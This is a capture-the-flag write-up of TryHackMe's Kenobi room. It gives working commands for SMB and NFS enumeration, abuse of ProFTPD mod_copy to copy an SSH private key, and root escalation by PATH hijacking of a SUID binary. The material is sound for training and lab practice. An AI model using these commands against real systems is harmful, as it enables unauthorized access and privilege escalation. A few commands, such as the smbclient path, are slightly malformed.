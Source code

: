 # Kenobi CTF Writeup

## About the Capture the Flag 
Name: Kenobi\
Difficulty: Easy\
Author: [TryHackMe](https://tryhackme.com/p/tryhackme)\
Link: [LINK TO CTF](https://tryhackme.com/room/kenobi)

## Start of writeup

### Introduction
The Kenobi Capture the Flag challenge is a fun and interesting CTF that is classed as easy on the TryHackMe website. According to the creator of this CTF, it covers manipulating a vulnerable version of ProFTPD to gain access and escalating your privileges to root via an SUID binary. Kenobi is a character from Star Wars so I am expecting many references throughout!

### Goal of the CTF
The CTF consists of three parts: 

*Enumerating Samba for shares;
*Gain initial access with ProFTPd;
*Privilege Escalation with Path Variable Manipulation

The room has multiple questions that need to be answered to get a 100% completion.

### Part 1 - Enumerating Samba for shares
In the first part of the CTF we're going to enumerate Samba. This is done with a special NMAP scan command as instructed in the CTF itself. This is used to answer the first question asked.

```python
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <ip>
```

![nmap445.jpg](./images/nmap445.jpg)

>"Using the nmap command above, how many shares have been found?" Answer: 3

Now that we know how much shares there are, and what they're named, we can try and connect to one. The room sends us in the right direction by telling us we need to the anonymous share. We do this by typing out the following command:

```python
smbclient //<ip>anonymous
```

![smb.jpg](./images/smb.jpg)

As shown in the console, a promt for a password is given but by simply pressing enter, you can skip by this. A simple "ls" command shows us the answer to the second question by displaying the file that we can see.

>"Once you're connected, list the files on the share. What is the file can you see?" Answer: log.txt

The next step is to get hold of this file and see what's inside of it. This is done by a simple smbget command which simply grabs the file and downloads it for you. 

```python
smbget -R smb://<ip>/anonymous
```

This file contains a lot of interesting information like how a SSH key is generated for Kenobi and information about the ProFTPD server running on port 21, which answers the next question.

>"What port is FTP running on?" Answer: 21

The next and final step for this part of the CTF is performing a NMAP scan to see the mount being used to a network file system. The command used for this is also given by the author of the room. By executing this command we get answer to the final question of this part of the CTF.

```python
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <ip>
```

![nmap2.jpg](./images/nmap2.jpg)

>"What mount can we see?" Answer: /var

### Part 2 - Gain initial access with ProFTPd
In this step we're going to try to gain access to the system over FTP on port 21. After doing the original NMAP scan it showed that we're dealing with FTP on port 21 with the ProFTPd software running, with version 1.3.5. To find a weakness in this version of the software, we're going to repeat the steps that we done in the "Basic Pentest: 1" and use searchsploit to find a weakness in the system. After performing that command we can answer the first two questions:

>"What is the version?" Answer: 1.3.5

>"How many exploits are there for the ProFTPd running?" Answer: 4

The search shows four weaknesses, the exploit we're going to target is the mod_copy module. The module implements two commands that are used to copy files from one place to another on the server it's being hosted on. Anyone can leverage these commands to copy files from any part of the filesystem. This is done by a simple NetCat command with the target ip and the port you wanna target, in this case 21.

```python
nc <ip> 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

![nc21.jpg](./images/nc21.jpg)

The reason we moved the id_rsa file to /var is because it's mounted, as we discovered in part 1. From this point its simple to copy the directory to our own machine and use the ssh key that we obtained to access the system through ssh. This is a pretty simple process done with only a few simple commands:

```python
mkdir /mnt/kenobiNFS
mount <ip>/var /mnt/kenobiNFS
ls -la /mnt/kenobiNFS
```

```python
cp /mnt/kenobiNFS/tmp/id_rsa
chmod 600 id_rsa
ssh -i id_rsa kenobi@<ip>
```

After you manage to gain access using SSH, you'll be able to do a simple "ls -la" command and will see the user.txt file which contains the answer to the last question of this part.

>"What is Kenobi's user flag?" Answer: cat user.txt

### Part 3 - Privilege Escalation with Path Variable Manipulation
The third and final part of this CTF involved the usage of SUID. We're tasked with finding a file that's out of the ordinary for the first question of this part. The author tells us to execute a command which will answer the question, it returns a list of several binaries. 

```python
find / -perm -u=s -type f 2>/dev/null
```

The binary that stands out the most is the /usr/bin/menu binary. The reason being is that menu isn't a known service that is found on Linux systems, you need to have some Linux knowledge for this. If this has been created by the creator of this system, its very possible this binary contains errors and escalation privileges.

>"What file looks particularly out of the ordinary?" Answer: /usr/bin/menu

>"Run the binary, how many options appear?" Answer: 3

The step after this is thoroughly described in the room itself, quoting the author of the CTF: "We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!" This is done with the following commands:

```python
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```

The final step is using cat on the root.txt file and you've just completed the CTF by answering the last question!

>"What is the root flag (/root/root.txt)?" Answer: cat root.txt

### Conclusion
My thoughts on this CTF is that it was very useful. It thought us new techniques and it had us reapply old techniques that we learned in previous CTFs. The guidance throughout the CTF was nice at times but it did felt like I was reading a writeup more than being offered a challenge. All in all it's a good CTF to try out and the rating easy definitely applies here. Good luck and have fun with this CTF!